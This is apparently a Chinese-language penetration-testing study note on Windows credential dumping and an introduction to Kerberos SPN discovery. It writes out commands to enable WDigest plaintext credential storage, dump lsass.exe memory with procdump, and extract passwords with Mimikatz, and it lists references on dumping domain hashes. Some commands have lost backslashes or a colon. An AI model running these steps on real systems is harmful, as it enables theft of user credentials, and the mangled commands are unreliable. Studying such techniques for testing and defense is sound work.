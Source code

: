         

powershell修改：

    PS C:> New-ItemProperty -Path HKLM:SYSTEMCurrentControlSetControlSecurityProvidersWDigest -Name UseLogonCredential -Type DWORD -Value 1
    
        

procdump语法：

    procdump.exe -accepteula -ma lsass.exe c:windowstapia.dmp
    
        

**图形界面转储**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200929174530851.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**MIMIKATZ-SEKURLSA::LogonPasswords**-
语法：

    privilege:debug     # 设置权限
    
    sekurlsa::minidump lsass.dmp    # 选择要读出的内存文件
    
    sekurlsa:logonpasswords  # 获取密码
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200929174657274.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200929174747281.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**后记**

其实获取本地hash还有很多工具可以利用，这边分享的是比较通用的方法

参考文章：

    http://www.secwk.com/2019/09/08/6372/
    
        

* * *

#### 5.1.4 转储域账户哈希值

    https://scarletf.github.io/2019/09/03/域渗透-导出域用户Hash方法/
    
    https://xz.aliyun.com/t/2527   ---如何Dump域内的Hash
    
    https://cloud.tencent.com/developer/article/1165439   --导出域内用户hash的几种方法
    
        

这几种方法，结合下思想-
然后书中的两个续集思路…

* * *

#### 5.1.5 SPN发现与利用（dayu-Fourteenth day）

**关于SPN**

服务主体名称（SPN）是Kerberos客户端用于唯一标识给特定Kerberos目标计算机的服务实例名称。Kerberos身份验证使用SPN将服务实例与服务登录帐户相关联。如果在整个林中的计算机上安装多个服务实例，则每个实例都必须具有自己的SPN。如果客户端可能使用多个名称进行身份验证，则给定的服务实例可以具有多个SPN。通过SPN，可快速定位开启了关键服务的机器，这样就不需要去扫对应服务的端口，有效规避端口扫描动作
